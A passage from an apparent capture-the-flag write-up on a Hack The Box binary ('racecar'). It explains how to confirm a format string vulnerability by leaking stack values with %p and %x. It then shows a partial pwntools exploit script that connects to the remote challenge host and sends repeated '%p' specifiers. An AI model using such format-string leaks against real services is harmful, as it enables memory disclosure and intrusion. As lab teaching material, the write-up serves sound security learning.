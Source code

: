 Passing a number of pointers to print out addresses verifies the vulnerability. Our final check at this point is setting a localized `flag.txt` file to a known value (I set AAAABBBBCCCC), then incrementally looking for that value by swapping out %p with %x instead. Since I know that the hex values of A, B, and C are 0x41, 0x42, and 0x43 respectively, I was just looking for it to get leaked:

![alt text](/assets/images/format-string2.png)

My last step was working with `pwntools` to automate the exploit and connect to the binary being hosted on Hack The Box. The resulting exploit looked as such:

```python
#!/usr/bin/env python3
import sys
from pwn import *
context.update(arch='x86_64', os='linux')

def hex_to_ascii(hex_string, endianness='big'):
    """
    Converts a hex string to ASCII, considering endianness.
    
    :param hex_string: A string of hexadecimal values (e.g., '41414141')
    :param endianness: 'big' for big-endian, 'little' for little-endian
    :return: The corresponding ASCII string
    """
    # Convert hex string to bytes
    byte_array = bytes.fromhex(hex_string)
    
    # Reverse byte order for little-endian
    if endianness == 'little':
        byte_array = byte_array[::-1]
    
    
    byte_array = b''.join(byte_array[i:i+4][::-1] for i in range(0, len(byte_array), 4))
    
    return byte_array.decode('utf-8')


binstr = "./racecar"
ip = "94.237.55.182"
port = 46823

if (len(sys.argv)<= 1):
    p = process(binstr)
elif (sys.argv[1] == "dbg"):
    p = gdb.debug([binstr],'''
    unset env LINES
    unset env COLUMNS
    continue
    ''')
elif (sys.argv[1] == "remote"):
    p = remote(ip,port)
else:
    print(f"Invalid argument to e.py: '{sys.argv[1]}'. Did you mean 'dbg'?")
    sys.exit(1)

payload = b''
payload += b'%p' * 11
```
